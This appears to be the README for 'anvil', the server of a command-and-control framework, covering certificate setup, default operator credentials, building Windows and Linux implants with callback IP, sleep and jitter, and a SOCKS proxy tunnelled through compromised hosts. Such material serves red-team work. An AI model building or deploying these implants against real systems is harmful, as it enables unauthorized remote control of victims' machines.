

### anvil

anvil is the actual c2 server. It is currently setup only for https communications, both for the implant and client operators. In the future I'll add websockets and other options. Currently the default port is 443. You can change it in the code, but its probably going to be 443 for most uses. In the future I'll add the ability to set flags to specify a port for implants to connect back to, as well as allowing http for cases when you want to let a redirector handle the TLS and force https with your http server. (more info on that when its added)
## setup

Since anvil uses https, you'll need SSL/TLS certificates to serve up. For now, this is done by generating your own certificate files, but I'll look at other methods in the future. For testing purposes, here is how to generate the certificates, which should be specified as a full path in the config.toml file and look something like this:

```
CERTIFICATE=/home/kirk/anvil/cert/cert.pem 
PRIVATE_KEY=/home/kirk/anvil/cert/key.pem
```

set the operator username and password to connect to the server also in config.toml under [users]. default is forge:forge. please change it.

generating certs for testing:

```
# interactive
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365

# non-interactive and 10 years expiration
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/C=XX/ST=StateName/L=CityName/O=CompanyName/OU=CompanySectionName/CN=CommonNameOrHostname"
```

You'll also need to do some installation setup:

```
[Anvil]
sudo apt-get install libssl-dev pkg-config build-essential
cargo (rust compiler) (for building) (curl https://sh.rustup.rs -sSf | sh) 
. "$HOME/.cargo/env"
install cross (cargo install cross --git https://github.com/cross-rs/cross)
install podman or docker (I use docker usually but either should work. this is for cross-compilation with cross)

[troubleshooting on ubuntu 22.04]
wget https://www.openssl.org/source/openssl-1.1.1u.tar.gz
tar -zxvf openssl-1.1.1u.tar.gz
cd openssl-1.1.1u
./config
make
make test
sudo make install
if that still doesn't work, copy the libs from the openssl folder to /usr/lib
```

## Building

```
cargo build --release
```

## Running

```
sudo setcap 'cap_net_bind_service=+ep' ./target/release/anvil (allows anvil to bind to port 443 without running as sudo)
./target/release/anvil (run without sudo)
```

## Building Implants

Implants are built from the main terminal in conduit, post auth to anvil c2 server. The implants are cross-compiled on the server and downloaded to local by the client. Currently there are 2 released windows variants, that can be built to exe, dll, or raw shellcode. The linux implant can target elf. Mac implants must be built locally by the operator, as they are not yet supported for cross-compilation by the server. Specify the callback ip and port, and then the sleep (in seconds) and jitter (percent of sleep variation). I've given examples below.

```
(from conduit terminal, example build functions)
build linux elf <ip> <port> <sleep> <jitter>
build windows exe 192.168.1.19 443 2 50
build windows dll 192.168.1.19 443 2 50
build windows_noldr raw 192.168.1.15 443 20 75
```

## Database

anvil creates a database using rusqlite (or sqlite). If you need to interact with it directly, I recommend the sqlite browser or sqlite cli.

## socks proxy

to connnect to a socks proxied host, ssh -L 1080:localhost:1080 username@anvilserver

the socks proxy is configured so that it is never exposed to the open internet. some tools leave all the onus on the operator to make sure they are not leaving an open socks proxy connection available to the whole internet. that is, if someone found your c2 server and the port with the sock proxy, they could potentially send traffic through your compromised host. in order to completely avoid that happening, the socks proxy in this case is only available to localhost on the anvil server. so in order to use the proxy from your attacker machine, you need to be able to SSH into the c2 server with the command I show above, forwarding your port to the c2 server and accessing the compromised host socks proxy locally on the c2.


